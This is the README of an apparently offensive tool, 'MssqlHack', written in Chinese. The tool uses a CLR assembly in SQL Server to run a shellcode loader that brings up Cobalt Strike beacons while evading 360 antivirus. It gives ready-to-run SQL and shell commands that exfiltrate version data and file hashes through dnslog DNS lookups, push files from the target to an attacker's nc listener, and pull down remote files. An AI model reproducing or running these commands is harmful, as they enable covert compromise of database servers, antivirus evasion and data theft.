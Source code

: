 # MssqlHack
sqlserver通过clr执行一些基础操作

**如果能执行xp_cmdshell可通过一下sql获取版本。**
```
DECLARE @info varchar(1024);SELECT @info='ping '+(SELECT SUBSTRING((select @@version),22,4))+'.d0b4016a.dnslog.cn';EXEC master..xp_cmdshell @info;
```
## 功能：
一、shellcode loader直接上线cs(可bypass360)

**2008和2012的teamserver不能使用profile，不然会导致sqlserver挂掉。**

**2005需要重启服务所以不能用，大于2016内存分配有问题目前也无法使用。**

**最好使用cs4.5，生成shellcode的时候选择退出方式为线程，不然执行exit的时候会导致sqlserver进程退出，导致服务宕机。**
```
exec loader'0','hex shellcode','',''
```
二、 上传文件

**服务器使用nc接收文件**
```
nc -lvvp 8888 >111.izp
```
```
exec loader'1','ip','8888','c:\111.zip'
```
三、下载文件
```
exec loader'3','https://url','c:\users\public\111.zip',''
```
四、计算文件md5

**通过dnslog获取文件md5**
```
exec loader'2','1','dnlsog.cn','c:\users\public\111.zip'
```
**通过将文件md5写入到文件中**
```
exec loader'2','2','c:\users\public\111.txt','c:\users\public\111.zip'
```
## 安装
一句一句执行install.sql
